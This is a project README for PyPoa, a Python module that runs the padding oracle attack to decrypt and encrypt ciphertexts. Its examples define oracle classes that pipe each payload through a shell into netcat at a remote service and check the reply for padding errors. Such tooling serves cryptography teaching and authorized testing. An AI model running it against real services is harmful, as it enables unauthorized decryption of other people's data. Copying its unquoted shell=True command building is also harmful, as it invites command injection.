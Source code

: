 
# PyPoa (Padding Oracle Attack)

A python module to perform the [Padding Oracle Attack](https://en.wikipedia.org/wiki/Padding_oracle_attack). It can both decrypt and encrypt messages.

## Installing / Getting started

```shell
git clone https://github.com/Dukezo/pypoa.git
pip install .
```

Clone the repository, install the package and you are ready to go.

## Example usage

Decrypting ciphertexts:
```python
class MyOracle(pypoa.Oracle):
    def validate(self, payload):
        proc = subprocess.Popen("echo %s | nc example.com 12345" % payload, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        output = str(proc.communicate()[0])
        return "invalid padding" not in output

ciphertext = "2495de02c6af8378db81b410c54cc3f75da4c0d4122d1c597496dd5b00038a32a333bcbabe327bd8292ca295fc8003463fe4c235a502d994d85a1332890ee080b8fd160937f260aa5449b2e05e8464cf" 
IV = binascii.hexlify(b"This is an IV456").decode("ascii")  
plaintext = pypoa.decrypt(ciphertext, 16, MyOracle(), IV)
```

Encrypting plaintexts:
```python
class MyOracle(pypoa.Oracle):
    def validate(self, payload):
        proc = subprocess.Popen("echo %s | nc example.com 12345" % payload, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        output = str(proc.communicate()[0])
        return "invalid padding" not in output

plaintext = 'Top secret message'
ciphertext = pypoa.encrypt(plaintext, 16, MyOracle())
```

## Licensing

See the LICENSE file for license rights and limitations (MIT).